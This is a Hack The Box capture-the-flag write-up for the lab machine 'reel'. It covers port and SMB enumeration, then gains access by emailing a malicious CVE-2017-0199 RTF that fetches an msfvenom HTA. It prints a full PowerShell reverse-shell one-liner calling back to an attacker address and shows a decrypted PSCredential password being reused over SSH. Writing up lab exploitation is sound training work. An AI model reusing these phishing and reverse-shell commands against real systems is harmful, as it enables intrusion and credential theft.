

# 10.10.10.77 (reel)

Tags:

## scan

### nmap

```sh
sudo rustscan -a reel -- -T4 -sV -sC -oA tcp-all
```

```
Nmap scan report for reel (10.10.10.77)
Host is up, received echo-reply ttl 127 (0.34s latency).
Scanned at 2023-07-10 19:56:49 EDT for 210s

PORT      STATE SERVICE     REASON          VERSION
21/tcp    open  ftp         syn-ack ttl 127 Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_05-29-18  12:19AM       <DIR>          documents
22/tcp    open  ssh         syn-ack ttl 127 OpenSSH 7.6 (protocol 2.0)
# ---- snip ----
25/tcp    open  smtp?       syn-ack ttl 127
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:
|     220 Mail Service ready
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     220 Mail Service ready
|     sequence of commands
|     sequence of commands
|   Hello:
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help:
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   SIPOptions:
|     220 Mail Service ready
|     sequence of commands
# ---- snip ----
|   TerminalServerCookie:
|     220 Mail Service ready
|_    sequence of commands
135/tcp   open  msrpc       syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open              syn-ack ttl 127 Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: HTB)
593/tcp   open  ncacn_http  syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49159/tcp open  msrpc       syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 24595/tcp): CLEAN (Timeout)
|   Check 2 (port 44437/tcp): CLEAN (Timeout)
|   Check 3 (port 32588/udp): CLEAN (Timeout)
|   Check 4 (port 39853/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3:0:2:
|_    Message signing enabled and required
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: -1s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2023-07-10T23:59:40
|_  start_date: 2023-07-10T23:42:10
| smb-os-discovery:
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: REEL
|   NetBIOS computer name: REEL\x00
|   Domain name: HTB.LOCAL
|   Forest name: HTB.LOCAL
|   FQDN: REEL.HTB.LOCAL
|_  System time: 2023-07-11T00:59:38+01:00
```

### smb

```sh
# get OS, hostname, and domain info, as well as signing (for relay attacks)
# also check null session
crackmapexec smb reel -u '' -p ''
SMB         reel            445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         reel            445    REEL             [+] HTB.LOCAL\:

# check guest account
crackmapexec smb reel -u 'guest' -p ''
# account disabled

# list shares
smbmap -H 10.10.10.77 -u '' -p ''
#none

# deeper scan
enum4linux -aMld reel | tee enum4linux.txt
Domain Name: HTB
Domain Sid: S-1-5-21-2648318136-3688571242-2924127574

# list users
crackmapexec smb reel -u '' -p '' --users
# hangs

# check password policy
crackmapexec smb reel -u '' -p '' --pass-pol
# no output
```


### msrpc

```sh
❯ impacket-rpcdump reel | tee rpcdump.txt
# nothing interesting

❯ rpcclient reel -U "" -N --help
# access denied for all commands
```


## access

Checking the FTP server, which allows anonymous login:

```sh
❯ ftp -A reel
Connected to reel.
220 Microsoft FTP Service
Name (reel:kali): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: ftp
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -a
200 EPRT command successful.
150 Opening ASCII mode data connection.
05-29-18  12:19AM       <DIR>          documents
226 Transfer complete.
ftp> cd documents
250 CWD command successful.
ftp> ls -a
200 EPRT command successful.
125 Data connection already open; Transfer starting.
05-29-18  12:19AM                 2047 AppLocker.docx
05-28-18  02:01PM                  124 readme.txt
10-31-17  10:13PM                14581 Windows Event Forwarding.docx
226 Transfer complete.
ftp> get readme.txt
local: readme.txt remote: readme.txt
200 EPRT command successful.
125 Data connection already open; Transfer starting.
100% |*******************************************|   124        2.11 KiB/s    00:00 ETA
226 Transfer complete.
124 bytes received in 00:00 (2.09 KiB/s)
ftp> binary
200 Type set to I.
ftp> get AppLocker.docx
local: AppLocker.docx remote: AppLocker.docx
200 EPRT command successful.
125 Data connection already open; Transfer starting.
100% |*******************************************|  2047       29.83 KiB/s    00:00 ETA
226 Transfer complete.
2047 bytes received in 00:00 (29.72 KiB/s)
ftp> get Windows\ Event\ Forwarding.docx
local: Windows Event Forwarding.docx remote: Windows Event Forwarding.docx
200 EPRT command successful.
125 Data connection already open; Transfer starting.
100% |*******************************************| 14581      115.07 KiB/s    00:00 ETA
226 Transfer complete.
14581 bytes received in 00:00 (113.97 KiB/s)
ftp> exit
221 Goodbye.


❯ cat readme.txt
please email me any rtf format procedures - I'll review and convert.
new format / converted documents will be saved here.
```

Grabbed 3 files.

That readme makes it look like we have a phishing vector available to us. With a box name like 'reel', I guess that makes sense. We'll hold off on that until we finish enumeration.

Checking the metadata of the DOCX files:

```sh
❯ exiftool -u "Windows Event Forwarding.docx"
File Name                       : Windows Event Forwarding.docx
File Permissions                : -rw-r--r--
File Type                       : DOCX
Creator                         : nico@megabank.com
Create Date                     : 2017:10:31 18:42:00Z
Modify Date                     : 2017:10:31 18:51:00Z
Application                     : Microsoft Office Word
App Version                     : 14.0000
# ---- snip ----

❯ exiftool -u "AppLocker.docx"
# nothing additional useful
```

Looks like we found our victim's email: `nico@megabank.com`.

Let's try opening the Word docs in LibreOffice. First the Windows Event one:



It mentions a tool called [wecutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wecutil), which I was unfamiliar with. It is a remote event manager. I didn't see anything immediately obvious on ways to leverage it as an attack vector.

The AppLocker document contained this text:

```
AppLocker procedure to be documented - hash rules for exe, msi and scripts (ps1,vbs,cmd,bat,js) are in effect.
```

According to the [Microsoft Documentation](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview), AppLocker helps you control which apps and files users can run. This means we can't just send a straight executable file or script in our phishing payload.

Let's see if we can use the SMTP server without authentication to send Nico an email:

```sh
❯ sendemail -f derp@herpderp.com -t nico@megabank.com -u "Please convert" -m "Please see the attached RTF file for conversion." -s reel -v
# ---- snip ----
Jul 11 20:18:59 kali sendemail[16824]: SUCCESS => Received: 	250 Queued (11.484 seconds)
Jul 11 20:18:59 kali sendemail[16824]: Email was sent successfully!  From: <derp@herpderp.com> To: <nico@megabank.com> Subject: [Please convert] Server: [reel:25]
```

I googled RTF exploit, and [CVE-2017-0199](https://nvd.nist.gov/vuln/detail/CVE-2017-0199) came up, with [a wonderful script](https://github.com/bhdresh/CVE-2017-0199) to craft a malicious RTF file that downloads and executes an HTA file from an attacker. This is the perfect tool for our client-side attack vector because the client appears to be using Word 2010, which is one of the vulnerable versions.

So we should be able to craft an evil RTF attachment and send it to the victim via the open SMTP server.

```sh
# clone exploit repo
❯ git clone https://github.com/bhdresh/CVE-2017-0199
❯ cd CVE-2017-0199

# craft reverse shell as HTA
❯ msfvenom -p windows/shell_reverse_tcp -f hta-psh -o derp.hta lhost=tun0 lport=443

# start reverse shell listener
❯ rlwrap nc -lvnp 443

# create malicious RTF file that tells victim to grab & run HTA file
❯ python2 cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://10.10.14.4/derp.hta

# Host server that uploads malicious HTA file
❯ python -m http 80

# send malicious email to victim
❯ sendemail -f derp@herpderp.com -t nico@megabank.com -u "Please convert" -m "Oops, sorry. Forgot the attachment. NOW please see the attached RTF file for conversion." -s reel -a /tmp/pwn/CVE-2017-0199/Invoice.rtf
```

And that gives us a shell!


## privesc

As always, let's start with basic enumeration.

```powershell
C:\users\nico\desktop> dir

    Directory: C:\users\nico\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-ar--        28/10/2017     00:59       1468 cred.xml
-ar--        12/07/2023     01:17         34 user.txt
```

When looking for the `user.txt` I found another interesting file called `creds.xml` that's on Nico's desktop:

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

Looking it up, this file was made by using the cmdlet `Export-CliXml`. We have to use Powershell commands to extract the credentials. My shell is `cmd`. I tried running powershell, but it hung. I tried starting a new reverse shell from within my existing one, but it complained that I can't execute `exe` files because of Group Policy. Finally I gave up an adjusted my HTA file to use a powershell reverse shell payload:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.4",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Then I converted that into it's equivalent Windows (UTF-16) base64 encoding and inserted that in place of the existing base64 powershell command in the HTA file generated by `msfvenom`. Then I sent another phishing email to get another shell, but this time running powershell.

Finally, I could extract the credentials.

```powershell
$credential = import-clixml -path cred.xml;$credential.GetNetworkCredential().username;$credential.GetNetworkCredential().password
Tom
1ts-mag1c!!!
```

Let's test the #credentials:
- `tom:1ts-mag1c!!!`

```sh
# check if creds are valid
❯ cme wmi reel -u 'tom' -p '1ts-mag1c!!!'
# yep!

# can we use them to SSH in?
❯ ssh tom@reel
Warning: Permanently added 'reel' (ED25519) to the list of known hosts.
tom@reels password: 1ts-mag1c!!!

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

tom@REEL C:\Users\tom>
```

Nice!

Basic enumeration:

```powershell
whoami /all
User Name SID
========= ==============================================
htb\tom   S-1-5-21-2648318136-3688571242-2924127574-1107

Group Name
==========================================
Everyone
BUILTIN\Print Operators
BUILTIN\Users
BUILTIN\Pre-Windows 2000 Compatible Access
NT AUTHORITY\NETWORK
NT AUTHORITY\Authenticated Users
NT AUTHORITY\This Organization
HTB\SharePoint_Admins
HTB\MegaBank_Users
HTB\DR_Site
HTB\HelpDesk_Admins
HTB\Restrictions
NT AUTHORITY\NTLM Authentication
Mandatory Label\High Mandatory Level

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Found a file on Tom's desktop under `C:\Users\Tom\Desktop\AD Audit\note.txt`.

```
Findings:

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path
query).

Maybe we should re-run Cypher query against other groups we've created.
```

## proof

[//]: # (INSERT PROOF TEMPLATE(S) HERE)